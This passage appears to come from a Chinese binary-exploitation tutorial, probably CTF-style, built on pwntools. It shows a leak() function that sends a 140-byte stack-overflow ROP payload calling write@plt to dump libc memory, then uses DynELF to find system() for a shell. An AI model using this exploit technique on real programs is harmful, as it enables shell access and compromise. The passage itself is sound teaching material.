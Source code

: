 ![cyclic模块](/assets/img/cyclic.jpg)

构造leak函数：

    def leak(address):
	    payload1 = "A" * 140 + p32(write_plt) + p32(main) + p32(1) + p32(address) + p32(4) #payload再返回到main[带有漏洞的函数]，反复利用漏洞
	    p.sendline(payload1)
	    data = p.recv(4)
	    log.info("%#x => %s" % (address, (data or '').encode('hex')))
	    return data   

这段函数能从内存中address处dump出4字节数据，函数执行结束后会返回main函数重新执行，也就是说利用这个函数，我们可以dump出整个libc

使用DynELF模块查找system函数地址：

    d = DynELF(leak, elf=ELF('./001'))
    system_addr= d.lookup('system', 'libc')

获取到system地址后便可以构造system("/bin/sh");攻击程序。
